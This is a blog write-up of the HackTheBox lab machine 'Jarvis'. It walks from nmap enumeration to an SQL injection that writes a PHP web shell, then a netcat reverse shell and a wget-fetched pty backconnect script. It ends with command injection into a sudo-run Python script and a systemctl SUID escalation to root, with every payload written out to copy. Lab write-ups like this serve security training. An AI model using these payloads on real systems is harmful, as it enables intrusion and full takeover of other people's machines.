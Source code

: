 ```yaml
---
layout:     post
title:      "HackTheBox: Jarvis"
date:       2019-11-10 00:00:00
author:     J
summary:    I love you 3000
categories: HackTheBox
thumbnail:  cube
tags:
 - OSCP
 - HackTheBox
 - Linux
---
```




Jarvis was a really satisfying box to root, in the sense that it's not too CTF-ish and had an initial foothold method that allowed me to learn something new. It is rated as a Medium difficulty box and I feel that it's slightly on the easier side of that spectrum.



Anyone who knows me personally would know that I dislike CTF style boxes where you have really annoying key pieces of the puzzle hidden in strange places like within an image(lol it's currently on a recently retired box). This will be the last HTB writeup for a while as I will begin working on certifications.



![1568728913954](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Jarvis/1568728913954.png)





Now lets get down to business



---



## Enumeration & Initial Foothold



We start by enumerating the ports open on the box:



~~~bash
nmap -sV -sC -p- oN nmap 10.10.10.143
~~~



~~~bash
# Nmap 7.70 scan initiated Wed Jul  3 07:52:10 2019 as: nmap -sV -sC -p- -oN nmap 10.10.10.143
Nmap scan report for jarvis (10.10.10.143)
Host is up (0.55s latency).
Not shown: 65530 closed ports
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 03:f3:4e:22:36:3e:3b:81:30:79:ed:49:67:65:16:67 (RSA)
|   256 25:d8:08:a8:4d:6d:e8:d2:f8:43:4a:2c:20:c8:5a:f6 (ECDSA)
|_  256 77:d4:ae:1f:b0:be:15:1f:f8:cd:c8:15:3a:c3:69:e1 (ED25519)
80/tcp    open     http    Apache httpd 2.4.25 ((Debian))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Stark Hotel
5355/tcp  filtered llmnr
31722/tcp filtered unknown
64999/tcp open     http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jul  3 08:38:07 2019 -- 1 IP address (1 host up) scanned in 2757.65 seconds

~~~





Typically when port 80 is open, it is the first thing I explore after searching through the software versions on the internet for known vulnerabilities.



Running `gobuster` returns a `phpmyadmin` login page, but for this case it's not required for entry so I have omitted that.



Crawling through the website, we notice that the `room.php` page takes an input parameter `cod` and uses it to render the room type. Injecting a `'` and appending it to the end breaks the page. Hmm..




![1568723719909](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Jarvis/1568723719909.png)



We can further test if the previous example was a false positive using the `order by` statement. Appending a `order by 1` returns the page as per normal. We might have an SQL injection vulnerability here!



![1568723834604](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Jarvis/1568723834604.png)



We can increment the number we `order by` to test how many columns are returned by the SQL database. When this number reaches 8, the page gets broken again. We now know that there are 7 columns returned from the SQL query.



![1568723867745](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Jarvis/1568723867745.png)



So we know that the web application runs `php`, we have an SQL injection vulnerability, and that it selects 7 columns of data from whatever table it's querying.



Here we can write a file echoing(don't forget url encoding!) a simple php 1 liner RCE code into a file on the server. `/var/www/html` is one of the most common directories hosting web pages so we can try that first. We can use a `union select` command to add additional data to be returned by the SQL query. If the number of columns matches the actual number that's returned by the query, an additional row will be appended to the results(I'll probably have to make another post on explaining this). So, we select 6(+1 payload to make 7) to create our query:



~~~
http://10.10.10.143/room.php?cod=1+union+select+1,2,3,4,5,6,'<%3fphp+system($_GET["cmd"])%3b+%3f>'+into+outfile+'/var/www/html/cmd.php'+%23
~~~



![1568723959570](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Jarvis/1568723959570.png)



After that, we can try accessing our new file at `10.10.10.143/cmd.php` and note that it did create something:





![1568728086337](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Jarvis/1568728086337.png)





Now that we have the php file on the server, we can execute our netcat reverse shell back to our listener:

~~~bash
# create listener
nc -lvp 443

# call our reverse shell(please use a different terminal for this, don't do it in the listner)

curl -X GET "http://10.10.10.143/cmd.php?cmd=nc%2010.10.14.4%20443%20-e%20/bin/sh"
~~~



Of course you don't have to use `curl`, just entering the payload in the browser works just as well. 



In any case, we get a shell!

![1568724141929](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Jarvis/1568724141929.png)





---



## Privilege Escalation - User



We upgrade to a prettier shell, and run a `sudo -l` to check out sudo privileges



![1568724227472](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Jarvis/1568724227472.png)



An interesting command was found within this `simpler.py` file.



![1568724294794](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Jarvis/1568724294794.png)





As we can see, the file checks for bad characters. However, a key character `$` was missing. Using command substitution, we can still get it to execute scripts.



Here I go back to using the trusty  set of python pty shell scripts by infodox, which can be found [here][1]. As shown in the writeup on Writeup, these scripts allow us to spawn a reverse shell from the target to the host. The result allows for a fully interactive shell, inclusive of tab autocomplete, history, and such.



We first edit`tcp_pty_backconnect.py` with our IP address, and then host the file on our HTTP server using port of our choosing.



~~~bash
python -m SimpleHTTPServer 1234
~~~





![1568724965720](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Jarvis/1568724965720.png)





After which, we enter a world-writable directory where we can work out of;  `/tmp` is usually my favourite. Inside we can use `wget` to download our script



~~~bash
wget 10.10.16.53:1234/tcp_pty_backconnect.py
~~~



![1568725392837](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Jarvis/1568725392837.png)



We can then setup the listener to catch the reverse shell by binding it to the IP and port previously specified:

~~~bash
python tcp_pty_shell_handler.py -b 10.10.16.53:31337 
~~~



### Simpler.py



We run the script as the user `pepper`, and see the usage instructions. Here we know that `-p` will call the function we want to exploit.



![1568726080425](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Jarvis/1568726080425.png)



~~~bash
sudo -u pepper /var/www/Admin-Utilities/simpler.py  
# then
8.8.8.8 $(python /tmp/tcp_pty_backconnect.py)

~~~



On the listener we previously set up, we see that we got our user shell.



![1568726351083](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Jarvis/1568726351083.png)



---



## Privilege Escalation - Root



Doing the usual checks, we see that `systemctl` has an SUID bit set and will run as root.



![1568726493292](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Jarvis/1568726493292.png)



We check this very lovely website called [gtfobins][2] and see that `systemctl` can be used to elevate the user privileges if SUID bit or if `sudo` can be run on it as root.



Kudos to the creators of this box, whether intentional or not. There was one last hoop to jump through.



Following the steps in [gtfobins][2] did not escalate our shell to root.  Poo :(



However, if you think about it. What's the difference between the following? :

1. Have SUID bit set as root
2. Can SUDO as root with no password



Basically, the main difference is simply the lack of the `sudo -u root` or `sudo` prefix when running the binary or script.

So this basically means, we can try the methods described that were meant for the `sudo` section of the page, just removing the word `sudo` from the command(s).



Here, in plain text for your copy paste pleasure:

~~~bash
TF=$(mktemp)
echo /bin/sh >$TF
chmod +x $TF
SYSTEMD_EDITOR=$TF systemctl edit system.slice
~~~



And executing these gets us our root shell. From here we can go to the respective directories and get the flags required. :)



![1568727190405](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Jarvis/1568727190405.png)



Cya guys next time. I love you 3000!





[1]: https://github.com/infodox/python-pty-shells

[2]: https://gtfobins.github.io/gtfobins/systemctl/






